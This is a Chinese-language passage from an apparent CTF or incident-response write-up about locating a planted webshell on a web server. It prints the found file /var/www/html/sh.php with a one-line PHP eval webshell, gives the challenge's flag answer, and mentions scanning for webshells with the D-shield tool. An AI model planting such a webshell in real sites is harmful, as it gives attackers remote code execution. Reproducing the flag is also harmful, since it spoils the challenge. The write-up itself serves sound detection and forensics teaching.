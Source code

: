
得到；

> ./var/www/html/sh.php:1	2	<?php @eval($_POST['a']);?>	4

**那有的人就要问了，圈起来的是不是报错了？**

**简单来说命令中，**​**​`find`​**​**命令会遍历整个文件系统，包括受限的系统目录（如**​ **​`/proc`​**​ **），从而导致“Permission denied”错误。（简而言之，影响不是很大，大家可以放心哈，达到目的即可）**

那这里既然发现了位置，那就跟进分析；

​![在这里插入图片描述](assets/net-img-d6289a2b8a6a4f469c11bf23409bb977-20240705155247-2oy7ets.png)​

**题目让我们提交关键字符窜，下面刚刚好有一行注释的，尝试提交，发现正确；**

	flag{ccfda79e-7aa1-4275-bc26-a6189eb9a20b}

###### 拓展1.1

**工具查杀webshell**

这题同样也是可以使用工具排查webshell，原理很简单，刚刚我们已导出源码，直接丢进查杀webshell工具进行查杀即可，这里我使用的是D盾；

**[D盾](https://www.d99net.net/)**

​![在这里插入图片描述](assets/net-img-d86c12eca877425ebfb9e4662666b98e-20240705155247-984dxh2.png)​
